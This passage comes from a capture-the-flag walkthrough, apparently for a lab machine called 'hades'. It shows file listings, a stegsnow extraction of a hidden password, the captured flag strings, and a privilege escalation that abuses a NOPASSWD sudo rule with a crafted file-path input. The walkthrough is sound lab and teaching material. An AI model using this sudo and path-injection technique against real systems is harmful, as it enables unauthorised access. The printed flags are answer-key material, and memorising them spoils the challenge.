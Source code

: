 ```plaintext title="ls -lah"
drwxr-x--- 2 root      cassandra 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 cassandra cassandra  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cassandra cassandra 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 cassandra cassandra  807 Apr 23  2023 .profile
-rw-r----- 1 root      cassandra   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      cassandra  369 Jul 26  2023 here.txt
-rw-r----- 1 root      cassandra  147 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
┌─[randark@parrot]─[~/tools/SnowCracker]
└──╼ $stegsnow ../../tmp/here.txt.1
gRqFnHblmZVZSfegPLvO
```

## User - cassiopeia

### flag - 20

```plaintext
^GyWbcpEpqMsqMsjilzX^
```

### 任务目标

```plaintext title="mission.txt"
User clio hates spaces.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root       cassiopeia 4.0K Jul 26  2023 .
drwxr-xr-x 1 root       root       4.0K Jul 26  2023 ..
-rw-r--r-- 1 cassiopeia cassiopeia  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cassiopeia cassiopeia 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 cassiopeia cassiopeia  807 Apr 23  2023 .profile
-rw-r----- 1 root       cassiopeia   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root       cassiopeia  131 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
cassiopeia@hades:~$ sudo -l
Matching Defaults entries for cassiopeia on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cassiopeia may run the following commands on hades:
    (clio) NOPASSWD: /bin/bash -c /usr/local/src/differences.sh
cassiopeia@hades:~$ sudo -u clio /bin/bash -c /usr/local/src/differences.sh
File to compare:!
/var/tmp/tesssssssst\x0/pwned/clio/flagz.txt
0a1
> ^XUJbvPwAZYgoUgkpeSv^
```
